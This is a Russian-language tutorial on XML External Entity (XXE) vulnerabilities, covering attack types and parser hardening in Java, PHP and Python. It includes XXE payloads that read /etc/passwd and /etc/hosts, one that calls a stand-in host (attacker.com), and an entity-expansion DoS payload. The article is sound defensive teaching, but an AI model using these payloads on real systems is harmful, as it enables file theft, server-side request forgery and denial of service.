 **XML External Entity (XXE)** — это уязвимость, связанная с обработкой XML-документов, которая позволяет злоумышленникам выполнять различные атаки на веб-приложения. Уязвимость возникает, когда парсер XML обрабатывает внешние сущности (External Entities) — специальные теги, которые могут ссылаться на внешние ресурсы. XXE-атаки могут привести к чтению конфиденциальных данных с сервера, выполнению удалённых запросов, отказу в обслуживании (DoS) или выполнению произвольного кода.

### Как работает XXE

XML-документ может содержать **внешние сущности** — специальные элементы, которые ссылаются на ресурсы вне самого XML-документа. Эти сущности обычно включаются в документы через DTD (Document Type Definition). Злоумышленник может использовать уязвимость в парсере XML, если сервер неправильно настроен и позволяет обработку таких сущностей.

#### Пример уязвимого XML-документа с внешней сущностью:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [  
  <!ENTITY xxe SYSTEM "file:///etc/passwd">  
]>
<userInfo>
  <name>&xxe;</name>
</userInfo>
```

В данном примере сущность `xxe` ссылается на файл `/etc/passwd` (системный файл в Unix-системах), и если XML-парсер не защищён, он попытается включить содержимое этого файла в обработанный XML-документ, что приведёт к утечке данных.

### Виды XXE-атак

1. **Чтение локальных файлов**:
   XXE может быть использована для чтения содержимого файлов на сервере, которые доступны серверу, но не должны быть доступны пользователю.

   Пример:
   ```xml
   <!ENTITY xxe SYSTEM "file:///etc/hosts">
   ```

2. **Запросы к удалённым ресурсам**:
   Злоумышленник может использовать XXE для отправки запросов на внешние серверы, которые могут позволить ему получить информацию о внутренней сети или даже провести атаку через SSRF (Server-Side Request Forgery).

   Пример:
   ```xml
   <!ENTITY xxe SYSTEM "http://attacker.com/secret-data">
   ```

3. **Отказ в обслуживании (DoS)**:
   Злоумышленники могут использовать уязвимости XXE для создания "бомбы сущностей" (Entity Expansion Bomb), что приведёт к исчерпанию ресурсов сервера и отказу в обслуживании.

   Пример:
   ```xml
   <!DOCTYPE bomb [
     <!ENTITY a "a" >
     <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;" >
     <!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;" >
   ]>
   <data>&c;</data>
   ```

4. **Удалённое выполнение кода**:
   В редких случаях, если у сервера есть уязвимые интерпретаторы (например, старые версии PHP с модулем `libxml2`), XXE может позволить злоумышленнику выполнить произвольный код на сервере.

5. **Обход аутентификации**:
   В некоторых случаях XXE может быть использована для обхода механизмов аутентификации или авторизации, если злоумышленник может изменять XML-документ или его структуру.

### Опасности XXE-атак

- **Утечка конфиденциальной информации**: XXE позволяет злоумышленникам читать файлы с сервера, такие как конфигурационные файлы, базы данных, аутентификационные токены, что может привести к краже данных.
  
- **Внутренний скан сети**: Злоумышленник может использовать парсер для выполнения запросов к внутренним сервисам, которые доступны только с сервера, что позволяет ему узнать конфигурацию сети или атаковать другие внутренние ресурсы.
  
- **Разрушение системы**: Атаки DoS на основе XXE могут перегружать систему и делать её недоступной для пользователей.

### Способы защиты от XXE-атак

1. **Отключение обработки внешних сущностей**:
   Один из самых простых способов защиты от XXE — это отключение поддержки внешних сущностей в XML-парсерах. Для большинства языков программирования это делается путём установки соответствующих настроек.

   Пример для Java (с использованием библиотеки `SAXParser`):
   ```java
   SAXParserFactory factory = SAXParserFactory.newInstance();
   factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
   factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
   ```

   Пример для PHP (с использованием библиотеки `libxml_disable_entity_loader`):
   ```php
   libxml_disable_entity_loader(true);
   ```

2. **Использование безопасных парсеров**:
   Используйте XML-парсеры, которые по умолчанию отключают обработку внешних сущностей. Многие современные библиотеки парсинга XML уже исправили эти уязвимости и безопасны по умолчанию.

3. **Валидация входных данных**:
   Важно проверять все входные данные, особенно XML-файлы, которые передаются пользователями. Не следует доверять содержимому XML-документа, если он может быть изменён внешним пользователем.

4. **Использование альтернативных форматов данных**:
   Если XML не является критически важным для вашего приложения, рассмотрите возможность использования более простых форматов данных, таких как JSON, который менее подвержен подобным атакам.

5. **Ограничение прав доступа на сервере**:
   Убедитесь, что процессы на сервере имеют минимальные привилегии и что сервер ограничен в доступе к критическим файлам и сервисам.

6. **Мониторинг и аудит**:
   Внедрение систем мониторинга и логирования запросов к XML-парсерам поможет выявить подозрительную активность и предотвратить атаки до их успешного завершения.

### Пример защиты от XXE в Python

В Python для отключения внешних сущностей в библиотеке `lxml` можно использовать следующую настройку:

```python
from lxml import etree

parser = etree.XMLParser(resolve_entities=False)
tree = etree.parse('input.xml', parser)
```

### Заключение

XXE — это серьёзная уязвимость, которая может привести к утечке данных, компрометации системы или нарушению её работы. Чтобы предотвратить атаки, важно отключать внешние сущности в XML-парсерах, использовать безопасные методы обработки XML и регулярно обновлять библиотеки и инструменты.